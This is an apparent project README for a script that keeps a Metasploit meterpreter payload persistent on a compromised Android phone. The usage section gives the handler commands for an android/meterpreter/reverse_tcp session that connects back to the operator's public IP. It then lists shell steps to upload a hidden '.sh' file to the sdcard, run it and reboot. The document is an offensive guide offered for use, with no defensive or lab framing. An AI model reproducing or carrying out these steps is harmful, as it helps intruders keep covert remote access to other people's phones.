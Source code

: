 # MSF PERSISTANCE ANDROID

- [MSF PERSISTANCE ANDROID](#msf-persistance-android)
  - [INDEX](#index)
  - [BADGES](#badges)
  - [INTRODUCTION](#introduction)
  - [PREREQUISITES](#prerequisites)
  - [USE](#use)
  - [LICENSE](#license)

## BADGES

[![pipeline status](https://gitlab.com/oda-alexandre/msf-persistance-android/badges/master/pipeline.svg)](https://gitlab.com/oda-alexandre/msf-persistance-android/commits/master)

## INTRODUCTION

This script allows the persistence of the payload on Android smartphone with Metasploit.

## PREREQUISITES

Use [Metasploit](https://www.metasploit.com/)

## USE

1 - Put the msf-persistance-android script in your personal folder and rename .sh

2 - Open MSF

```use exploit/multi/handler
set payload android/meterpreter/reverse_tcp
set lhost YOUR IP PUBLIC
set lport THE PORT OF YOUR CHOICE
exploit
```

3 - Copie/Paste in a terminal in shell MSF with a session android/meterpreter/reverse_tcp

```cd /
cd sdcard
upload ~/.sh
shell
cd /
cd sdcard
sh .sh
reboot
exit
```

## LICENSE

[![GPLv3+](http://gplv3.fsf.org/gplv3-127x51.png)](https://gitlab.com/oda-alexandre/msf-persistance-android/blob/master/LICENSE)
